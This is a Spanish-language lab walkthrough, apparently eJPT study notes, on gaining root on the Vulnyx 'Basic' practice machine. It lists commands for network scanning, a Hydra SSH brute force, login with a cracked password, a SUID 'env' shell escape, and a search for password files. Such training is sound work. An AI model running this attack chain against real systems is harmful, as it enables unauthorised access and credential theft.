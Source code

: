  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p --open -sS -sC -sV --min-rate=500 -vvv -n -Pn 1.2.3.4 -oN escaneo
```

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:
- Ver servicios corriendo:
```bash
ps aux
```

- Identificar puertos abiertos:
```bash
netstat -tulnp
```

- Ver conexiones activas:
```bash
ss -tuln
```

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- **Buscar otros dispositivos en la red:** Si tienes acceso a herramientas como `nmap`, puedes escanear otros dispositivos en la red:
```bash
nmap -sP 192.168.1.0/24
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "*password*" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
